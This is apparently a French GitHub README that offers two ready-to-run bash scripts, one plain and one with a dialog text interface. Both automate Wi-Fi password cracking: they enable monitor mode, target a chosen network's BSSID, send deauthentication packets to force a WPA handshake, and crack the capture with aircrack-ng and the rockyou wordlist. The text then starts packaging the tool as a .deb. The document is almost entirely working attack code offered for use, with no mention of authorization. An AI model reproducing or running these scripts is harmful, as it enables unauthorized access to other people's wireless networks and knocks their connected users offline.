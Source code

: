 # Script_bash_crack_wifi

## Script simple

```bash
#!/bin/bash

echo "=== Activation du mode moniteur ==="
sudo airmon-ng check kill
sudo airmon-ng start wlan0

echo ""
echo "=== Scan des réseaux disponibles (Ctrl+C pour stopper) ==="
sleep 2
sudo airodump-ng wlan0mon

echo ""
read -p "Entrez le BSSID de la cible : " bssid
read -p "Entrez le canal (CH) : " channel
read -p "Nom du fichier de capture (sans extension) : " output

echo ""
echo "=== Capture ciblée du handshake ==="
sleep 2
sudo airodump-ng -c $channel --bssid $bssid -w $output wlan0mon &
AIRODUMP_PID=$!

sleep 5
read -p "Appuyez sur Entrée pour envoyer les paquets de désauthentification (Ctrl+C pour annuler)"
sudo aireplay-ng -0 10 -a $bssid wlan0mon

echo ""
read -p "Appuyez sur Entrée pour arrêter la capture"
kill $AIRODUMP_PID

echo ""
read -p "Entrez le chemin vers votre dictionnaire (ex: /usr/share/wordlists/rockyou.txt) : " wordlist

echo ""
echo "=== Lancement du craquage avec Aircrack-ng ==="
sudo aircrack-ng -w $wordlist -b $bssid ${output}-01.cap

echo ""
echo "=== Script terminé. Bonne chance pour le crack ! ==="
```

`Ce qu’il fait :`

* Passe wlan0 en mode moniteur. 
* Lance airodump-ng pour détecter les réseaux.
* Demande le BSSID, canal et nom du fichier de capture.
* Lance la capture ciblée.
* Propose d’envoyer les paquets de désauthentification.
* Puis utilise Aircrack-ng avec le dictionnaire choisi.

## Interface utilisateur en texte (avec dialog)

1. Installation de dialog

```bash
sudo apt install dialog
```

wifi_attack_ui.sh
```bash
#!/bin/bash

# Vérification de dialog
if ! command -v dialog &> /dev/null; then
    echo "dialog n'est pas installé. Lance : sudo apt install dialog"
    exit 1
fi

# Étape 1 : tuer les interférences et passer en moniteur
airmon-ng check kill
airmon-ng start wlan0

# Étape 2 : scan initial
xterm -hold -e "airodump-ng wlan0mon" &
sleep 3
dialog --msgbox "Observe les réseaux dans la fenêtre ouverte.\nNote le BSSID et le canal.\nFerme la fenêtre puis clique OK." 12 50

# Étape 3 : récupération des infos utilisateur
bssid=$(dialog --inputbox "Entrez le BSSID de la cible :" 8 50 3>&1 1>&2 2>&3)
channel=$(dialog --inputbox "Entrez le canal (CH) de la cible :" 8 50 3>&1 1>&2 2>&3)
output=$(dialog --inputbox "Nom du fichier de capture (ex: capture1) :" 8 50 3>&1 1>&2 2>&3)

# Étape 4 : capture ciblée dans un terminal
xterm -hold -e "airodump-ng -c $channel --bssid $bssid -w $output wlan0mon" &
sleep 3
dialog --msgbox "La capture est lancée dans une nouvelle fenêtre.\nClique OK pour envoyer les paquets de désauth." 10 50

# Étape 5 : attaque de désauth
xterm -e "aireplay-ng -0 10 -a $bssid wlan0mon"

# Étape 6 : arrêt de la capture
pkill airodump-ng
sleep 1

# Étape 7 : sélection du fichier dictionnaire
wordlist=$(dialog --inputbox "Chemin vers votre dictionnaire (ex: /usr/share/wordlists/rockyou.txt) :" 8 60 3>&1 1>&2 2>&3)

# Étape 8 : craquage
capfile="${output}-01.cap"
dialog --msgbox "Début du craquage. Ceci peut prendre du temps." 7 50
xterm -hold -e "aircrack-ng -w $wordlist -b $bssid $capfile"

dialog --msgbox "Fin du script. Vérifie si le mot de passe a été trouvé !" 7 50
```
## Étapes pour créer un .deb : `wifi-attack-ui_1.0_all.deb`

1. Crée l’arborescence du paquet
```bash
mkdir -p wifi-attack-ui_1.0/DEBIAN
mkdir -p wifi-attack-ui_1.0/usr/local/bin
```
2. Place ton script dans `/usr/local/bin`
Copie ton script et rends-le exécutable :

```bash
cp wifi_attack_ui.sh wifi-attack-ui_1.0/usr/local/bin/wifi-attack-ui
chmod +x wifi-attack-ui_1.0/usr/local/bin/wifi-attack-ui
```